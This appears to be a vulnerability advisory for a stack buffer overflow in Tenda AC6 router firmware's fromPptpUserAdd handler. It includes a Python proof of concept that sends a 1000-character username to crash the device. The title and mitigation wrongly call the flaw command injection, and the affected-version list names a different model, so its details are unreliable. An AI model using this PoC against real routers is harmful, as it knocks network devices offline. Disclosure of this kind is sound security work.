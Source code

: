 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the username parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the username value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long username input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious username parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the username parameter, which directly overwrites stack memory.
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd5.png)
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd6.png)

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*1000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```
![PoC](fromPptpUserAdd2.png)
### PoC Run Results:
![Results](fromPptpUserAdd1.png)




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.


